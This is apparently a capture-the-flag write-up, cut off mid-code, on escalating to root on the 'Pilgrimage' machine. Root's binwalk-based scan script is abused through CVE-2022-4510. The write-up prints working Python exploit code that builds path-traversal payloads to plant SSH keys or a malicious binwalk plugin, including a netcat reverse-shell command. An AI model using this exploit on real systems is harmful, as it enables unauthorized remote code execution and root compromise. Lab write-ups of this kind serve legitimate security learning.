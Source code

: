 > Root user are executing a bash command, let's check it.

- Check malwarescan.sh

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

> This script detects if /var/www/pilgrimage.htb/shrunk/ has new png files. If new file detected the script exec binwalk to analyze the image.

-  Binwalk 2.3.2 Exploitation - CVE-2022-4510 (RCE)

```bash
cd /var/www/pilgrimage.htb/shrunk
```

```python
import argparse
import sys


class ExploitGenerator:
    def __init__(self, args):
        self.args = args

    def generate_exploit(self):
        if self.args.option == "ssh":
            header = bytes.fromhex(
                "5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e7373682f617574686f72697a65645f6b657973000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000034120000a0000000c100002e")
            with open(self.args.pub, "r") as pub_file:
                lines = pub_file.readlines()
        elif self.args.option in ["reverse", "command"]:
            if self.args.option == "reverse":
                command = f"nc {self.args.ip} {self.args.port} -e /bin/bash 2>/dev/null &"
            elif self.args.option == "command":
                if not self.args.command:
                    print("Please provide a command using --command option.")
                command = self.args.command
            header = bytes.fromhex("5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e77616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000034120000a0000000c100002e")
            lines = [
                "import binwalk.core.plugin\n",
                "import os\n",
                "import shutil\n",
                "class MaliciousExtractor(binwalk.core.plugin.Plugin):\n",
                "    def init(self):\n",
                "        if not os.path.exists('/tmp/.binwalk'):\n",
                f'            os.system("{command}")\n',
```